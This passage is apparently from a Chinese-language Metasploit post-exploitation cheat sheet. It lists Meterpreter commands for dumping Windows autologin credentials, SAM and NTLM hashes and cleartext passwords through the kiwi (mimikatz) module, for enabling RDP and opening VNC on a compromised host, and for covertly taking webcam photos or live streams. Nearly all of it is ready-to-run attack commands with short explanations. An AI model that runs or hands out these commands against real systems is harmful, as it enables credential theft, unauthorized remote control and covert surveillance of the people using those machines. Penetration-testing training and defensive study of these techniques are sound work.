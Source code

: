 #### 抓取自动登录账号密码

- `run windows/gather/credentials/windows_autologin`

#### 导出 SAM 数据库本地账户密码文件

- `run post/windows/gather/smart_hashdump`
  - 返回结果包含四列：用户名、SID、LM哈希、NTLM哈希（可用MD5解密）

#### 导出密码哈希

- `run hashdump`

#### 使用 kiwi 模块获取

- `load kiwi` 加载 kiwi 模块
- `creds_all` 直接获取密码
- `kiwi_cmd sekurlsa::logonpasswords` 直接获取密码

## 后渗透之远程监控

#### rdesktop 远控

> rdesktop 是 linux 下支持 windows 远程桌面连接的客户端程序，在 linux 系统下可以通过它远程访问 windows 桌面
>
> rdesktop 是 SourceForge 下支持的 GPL 协议开源项目，采用 RDP （远程桌面协议），几乎可以连接 windows 的所有版本

1. 安装 rdesktop
   - `apt-get install rdesktop`
   - `yum -y install rdesktop`
2. 远程控制
   - `rdesktop -u username -p password -g 1920x1080 192.168.xxx.xxx`
     - `-h`  帮助文档
     - `-u`  用户名
     - `-p`  密码
     - `-a 16`  使用 16 位色显示
     - `-f`  全屏模式（ctrl+alt+enter 退出全屏）
     - `-g 1027x768` 设置分辨率
   - `run post/windows/manage/enable_rdp` 如果远程计算机没有开放远程功能，可以在 meterpreter 中启动远程协议

#### vnc 远控

1. 直接运行

   `run vnc`

## 后渗透之摄像头监控

- `webcam_list`  列出所有软硬件摄像头列表
- `webcam_snap`  调用单个摄像头拍照，默认调用编号为 1 的摄像头
- `webcam_stream`  调用单个摄像头直播，默认调用编号为 1 的摄像头



# msf 进阶
